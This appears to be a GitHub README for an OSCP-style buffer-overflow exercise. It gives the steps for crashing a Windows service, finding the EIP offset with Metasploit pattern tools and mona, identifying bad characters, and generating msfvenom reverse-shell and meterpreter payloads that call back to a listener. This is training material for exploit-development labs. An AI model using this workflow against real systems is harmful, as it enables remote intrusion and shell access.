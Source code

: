 # BoF4OSCP

TODO: python3 setup.py

It's gonna edit all the python scripts with your target IP and PORT

Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

```
edit offset.py with the right pattern

```
python3 offset.py
```

check on mona what is the EIP address

take the EIP address (that looks mike EIP 386F...)

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset

```python3 eipOverwrite.py```

check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

edit findingBadchars.py with the offset

```
python3 findingBadchars.py
```

right click on ESP, follow in dump

find the badchars using the following command

```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create encoded payloads if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener

```
python3 finalBuffer.py
```
